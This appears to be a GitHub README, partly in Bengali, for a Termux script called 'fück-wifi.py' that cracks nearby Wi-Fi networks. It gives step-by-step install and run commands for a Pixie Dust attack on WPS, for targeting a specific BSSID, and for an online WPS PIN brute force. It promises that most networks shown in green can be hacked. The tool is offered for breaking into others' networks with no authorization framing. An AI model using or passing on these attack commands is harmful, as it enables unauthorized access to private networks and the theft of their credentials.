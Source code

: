 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

https://github.com/tanvirhasan999/Wifi-Hack/assets/168272220/ca10a2b2-9044-4ee9-8fd8-e0e721a76734

### Installation :

```bash
$ pkg update && pkg upgrade
$ pkg install git python
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python 
$ wpa-supplicant pixiewps iw
$ git clone https://github.com/tanvirhasan999/Wifi-Hack
$ cd Wifi-Hack
$ chmod +x fück-wifi.py
এরপর Wifi অফ করে
$ sudo python fück-wifi.py -i wlan0 -K

পরের বার Tool অপেন করতে 
$ sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K

আপনার Range এর ভেতর এর সব Wifi Show করবে।
এগুলার ভেতর Green এর গুলা 99% হ্যাক হবে। আর White এর গুলোও হতে পারে চেষ্টা করে দেখবেন।আর যেগুলো Red গুলো হ্যাক হবেনা।
```

#### Example : `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
